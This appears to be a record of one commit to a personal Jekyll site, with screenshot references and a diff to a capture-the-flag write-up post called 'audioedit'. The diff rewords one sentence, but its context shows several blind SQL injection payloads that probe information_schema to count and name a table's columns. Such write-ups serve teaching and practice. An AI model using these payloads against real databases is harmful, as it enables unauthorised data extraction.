

Before and after one commit to machinexa2/machinexa2.github.io, a Jekyll site: the page built from writeups/_posts/2020-09-19-audioedit.markdown, in a window 1280 px wide and 900 px high, scrolled down 4690 px. Shown: the whole window, without its empty margins (230-1049 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
04:12:12 PM 10/04/2020

````diff
--- a/writeups/_posts/2020-09-19-audioedit.markdown
+++ b/writeups/_posts/2020-09-19-audioedit.markdown
@@ -122,7 +122,7 @@ Ah, i was tired and irritated. Took some caffeine again and got started. For num
 
 `' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`
 <br>
-So, number of columns are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
+So, after running script i know number of columns are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
 ```sql
 ' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
 ' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
````
